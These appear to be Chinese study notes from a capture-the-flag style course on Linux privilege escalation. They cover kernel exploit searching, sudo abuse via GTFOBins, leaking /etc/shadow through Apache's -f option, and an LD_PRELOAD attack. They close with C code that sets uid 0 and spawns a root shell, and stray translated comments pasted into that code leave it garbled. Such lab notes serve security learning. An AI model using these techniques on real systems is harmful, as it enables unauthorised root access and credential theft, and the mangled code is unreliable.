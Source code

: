 ## 资料来源：

1. Google搜索
2. https://www.linuxkernelcves.com/cves类似的资源
3. 使用类似LES (Linux Exploit建议器)的脚本，<span style="color: #E0E1E4">这些工具可能会产生误报(报告一个不影响目标系统的内核漏洞)或漏报(不报告任何内核漏洞，尽管内核存在漏洞)</span>

## Notes：

1. 在谷歌、Exploit-db或searchsploit上搜索漏洞攻击程序时，详细说明i内核版本
2. 启动漏洞攻击程序之前，一定要弄清楚它的工作原理。一些漏洞攻击代码可以对操作系统进行更改，从而使它们在进一步使用时变得不安全，或者对系统进行不可逆的更改，从而在以后产生问题。
3. 有些漏洞攻击程序在运行后可能需要进一步的交互。请阅读漏洞攻击代码附带的所有注释和说明。
4. 可以使用 `SimpleHTTPServer`  Python模块和 `wget` 模块将漏洞攻击代码从你的计算机传输到目标系统

[【THM】Linux Privilege Escalation(Linux提权基础)-学习 - Hekeatsll - 博客园](https://www.cnblogs.com/Hekeats-L/p/16867299.html)

特权提升：sudo

> 在某些情况下，系统管理员可能需要为普通用户提供一定的权限灵活性。例如，初级 SOC 分析师可能需要经常使用 Nmap 工具，但没有被授予完全的 root 权限。在这种情况下，系统管理员可以允许该用户仅以 root 权限运行 Nmap 工具，而在系统其他部分仍保持其普通权限级别。


任何用户都可以使用 sudo -l命令来查看其当前的权限状态

[GTFOBins](https://gtfobins.github.io/)：提供了有关可能拥有sudo权限的任何程序的使用信息

应用程序功能提权

在环境中有些应用程序可能不会有漏洞，这时要有黑客思维。例如Apache2有一个选项，支持加载替代配置文件（ `-f` ：指定替代的ServerConfigFile）使用此选项加载 `/etc/shadow` 文件时，将会出现错误信息，其中包含 `/etc/shadow` 文件的第一行。

**利用LD_PRELOAD**

有些系统中，可能会有LD_PRELOAD环境选项,LD_PRELOAD 是一个允许任何程序使用共享库的功能。如果启用了 "env_keep" 选项，我们可以生成一个将在程序运行之前加载和执行的共享库。请注意，如果实际用户 ID 与有效用户 ID 不同，则 LD_PRELOAD 选项将被忽略

![](assets/CQgsbyXzuoNx8ExC94Vc5qr1nEh.png)

提权步骤：

1. 检查是否启用了LD_PRELOAD环境变量（并使用了env_keep选项）
2. 编写一个简单的C代码，并编译为共享对象(.so扩展名)文件
3. 使用sudo权限运行代码，并将LD_PRELOAD选项指向 .so文件

下面代码将直接创建一个root shell


```C
#include <stdio.h>
#include <sys/types.h> 包含 `` 头文件。
#include <stdlib.h>

void _init() { 无效 _init（） {
unsetenv("LD_PRELOAD"); 取消设置环境变量“LD_PRELOAD”。
setgid(0);
setuid(0);
system("/bin/bash"); 执行命令 "/bin/bash"
}
```

